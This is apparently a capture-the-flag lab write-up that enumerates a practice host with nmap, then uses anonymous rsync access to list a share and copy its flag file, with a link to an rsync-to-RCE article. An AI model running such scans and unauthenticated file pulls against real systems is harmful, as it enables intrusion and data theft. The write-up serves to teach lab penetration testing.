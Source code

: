# 1. Enumeration

- We will begin by scanning the remote host for any open ports and running services with `nmap`

```
nmap -p- --min-rate=1000 -sV 10.129.228.37
```

# 2. Rsync

- `rsync` is an open source utility that provides fast incremental file transfer. The way `rsync` works makes it
an excellent choice when there is a need to synchronize files between a computer and a storage drive and across
networked computers. 

- First, we will start enumerating the service to see if it requires authentication and check user's permissions.
```
rsync 10.129.228.39::
```
![img.png](img/img.png)

- `rsync` returns with the available directory without asking for authentication, which means that the service 
allows anonymous unauthenticated access.

- Let's see what's in `public`:
```
rsync -av rsync://10.129.228.37/public
```
![img_1.png](img/img_1.png)

- The final step is to copy/sync this file to our local machine and read it!
```
rsync -av rsync://10.129.228.37/public/flag.txt /home/kali
```
---
## <u>Note</u>

- `rsync` file upload to RCE: <a href="https://medium.com/r3d-buck3t/attack-insecure-rsync-service-928951af34ed">here</a>
